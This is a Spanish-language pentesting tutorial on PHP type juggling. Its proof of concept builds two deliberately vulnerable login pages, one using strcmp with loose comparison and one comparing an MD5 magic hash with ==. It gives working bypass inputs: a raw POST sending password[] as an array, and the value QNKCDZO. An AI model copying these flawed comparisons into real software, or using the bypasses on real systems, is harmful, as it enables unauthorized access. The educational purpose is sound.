

# Type Juggling Attack

Un ataque de **Type Juggling** (o “**cambio de tipo**” en español) es una técnica utilizada en programación para **manipular** el **tipo de dato** de una variable con el fin de engañar a un programa y hacer que éste haga algo que no debería.

La mayoría de los lenguajes de programación utilizan tipos de datos para clasificar la información almacenada en una variable, como enteros, cadenas, flotantes, booleanos, etc. Los programas utilizan estos tipos de datos para realizar operaciones matemáticas, comparaciones y otras tareas específicas. Sin embargo, los atacantes pueden explotar vulnerabilidades en los programas que no validan adecuadamente los tipos de datos que se les proporcionan.

En un ataque de Type Juggling, un atacante manipula los datos de entrada del programa para cambiar el tipo de dato de una variable. Por ejemplo, el atacante podría proporcionar una cadena de caracteres que “se parece” a un número entero, pero que en realidad no lo es. Si el programa no valida adecuadamente el tipo de dato de la variable, podría intentar realizar operaciones matemáticas en esa variable y obtener resultados inesperados.

Un ejemplo común de cómo se puede utilizar un ataque de Type Juggling para burlar la autenticación es en un sistema que utiliza comparaciones de cadena para verificar las contraseñas de los usuarios. En lugar de proporcionar una contraseña válida, el atacante podría proporcionar una cadena que se parece a una contraseña válida, pero que en realidad no lo es.

Por ejemplo, en PHP, una cadena que comienza con un número se convierte automáticamente en un número si se utiliza en una comparación numérica. Por lo tanto, si el atacante proporciona una cadena que comienza con el número **cero** (**0**), como “**00123**“, el programa la convertirá en el número entero **123**.

Aquí se puede ver un ejemplo:\


<figure><figcaption></figcaption></figure>

Si la contraseña almacenada en el sistema también se almacena como un número entero (en lugar de como una cadena), la comparación de la contraseña del atacante con la contraseña almacenada podría ser exitosa, lo que permitiría al atacante eludir la autenticación y obtener acceso no autorizado al sistema.

### Prueba de concepto

* Iniciar **servicio** de apache2:

```bash
❯ cd /var/www/html
❯ service apache2 start
```

* Crear archivo php que contenga un panel de login básico:

```php
<html>
	<font color="red"<center><h1>Secure Login Page</h1></center></font>
	<hr>
	<body style="background-color:powderblue">
		<center>
			<form method="POST" name"<?php basename($_SERVER['PHP_SELF']); ?>"></center>
				Usuario: <input type="text" name="usuario" id="usuario" size="30"></input>
				&nbsp;
				Password: <input type="password" name="password" id="password" size="30"></input>
				<input type="submit" value="Login"></input>
				<hr>
			</form>
		</center>

		<?php
			$USER = "admin";
			$PASSWORD = "contraseña";
			if(isset($_POST['usuario']) && isset($_POST['password'])){
				if($_POST['usuario'] == $USER){
					if(strcmp($_POST['password'], $PASSWORD) == 0){
						echo "[+] Acesso permitido";
					} else {
						echo "[!] Acesso denegado, la contraseña es incorrecta.";
					}
				} else {
					echo "[!] Acesso denegado, el usuario es incorrecto.";
				}
			}
		?>

	</body>
</html>
```

* Y enviando la peticion por POST cambiando en el campo password el tipo de dato a un **array\[]** podemos llegar a burlar el panel:

```
POST /index.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: http://localhost
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

usuario=admin&password[]=
```

* Otro ejemplo seria a partir del hash pongamos una contraseña que de 0:

```php
<html>
	<font color="red"<center><h1>Secure Login Page</h1></center></font>
	<hr>
	<body style="background-color:powderblue">
		<center>
			<form method="POST" name"<?php basename($_SERVER['PHP_SELF']); ?>"></center>
				Usuario: <input type="text" name="usuario" id="usuario" size="30"></input>
				&nbsp;
				Password: <input type="password" name="password" id="password" size="30"></input>
				<input type="submit" value="Login"></input>
				<hr>
			</form>
		</center>

		<?php
			$USER = "admin";
			$PASSWORD = 0e111111451993494058024219903391;
			if(!empty($_POST['usuario']) && !empty($_POST['password'])){
				$password_input = $_POST['password'];
				$password_input = md5($password_input);
				if($_POST['usuario'] == $USER){
					if($password_input == $PASSWORD){
						echo "[+] Acesso permitido";
					} else {
						echo "[!] Acesso denegado, la contraseña es incorrecta.";
					}
				} else {
					echo "[!] Acesso denegado, el usuario es incorrecto.";
				}
			}
		?>
	</body>
</html>
```

0e111111451993494058024219903391 == 0\
QNKCDZO == 0

0e111111451993494058024219903391 == QNKCDZO **➜** 0
